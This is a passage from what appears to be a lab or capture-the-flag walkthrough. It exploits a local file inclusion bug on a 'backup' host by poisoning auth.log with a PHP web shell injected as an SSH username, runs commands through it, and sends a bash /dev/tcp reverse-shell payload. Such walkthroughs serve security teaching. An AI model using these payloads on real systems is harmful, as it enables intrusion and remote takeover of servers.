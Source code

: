 If we can include the `/var/log/auth.log` file, the attack is most likely possible.

```plain
bob@dev:~$ curl backup?file=/var/log/auth.log
May  4 08:11:38 backup sudo: pam_unix(sudo:session): session closed for user root
May  4 08:11:38 backup sshd[56]: Server listening on 0.0.0.0 port 22.
May  4 08:11:38 backup sshd[56]: Server listening on :: port 22.
May  4 08:12:01 backup CRON[57]: pam_env(cron:session): Unable to open env file: /etc/default/locale: No such file or directory
May  4 08:12:01 backup CRON[57]: pam_unix(cron:session): session opened for user dave(uid=1000) by (uid=0)
```

We can! The idea is to inject php code in this file and then include it through the LFI.

This is the delicate part. If you mess up the php code injection part, you won't get a second try. It's best to try this locally since we have the source code.

```plain
bob@dev:~$ ssh '<?php system($_GET["c"]); ?>'@backup
The authenticity of host 'backup (172.21.0.3)' can't be established.
ED25519 key fingerprint is SHA256:pJsUM5kw0miPV6Urg2SduyJHadZjJH14XmkXAmDJc6E.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'backup' (ED25519) to the list of known hosts.
<?php system($_GET["c"]); ?>@backup's password:
```

Here we are trying to SSH into the backup machine with the user `<?php system($_GET["c"]); ?>`. Of course it will fail because the user doesn't exist. However, it will be logged in the auth.log file, thus allowing is to execute arbitrary code.

```plain
bob@dev:~$ curl "backup?file=/var/log/auth.log&c=id"
...
May  4 08:39:37 backup sshd[495]: Connection closed by invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
 172.21.0.2 port 43212 [preauth]
...
```

The command is executed and we can read the output. Now we need to get a reverse shell.

First let's get our IP on the local nextwork.

```plain
bob@dev:~$ hostname -I
172.21.0.2
```

I'm going to use this payload: `bash -c 'bash -i >& /dev/tcp/172.21.0.2/9999 0>&1'`. (Don't forget to start a listener).

```plain
bob@dev:~$ curl "backup?file=/var/log/auth.log&c=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.21.0.2%2F9999%200%3E%261%27"
```

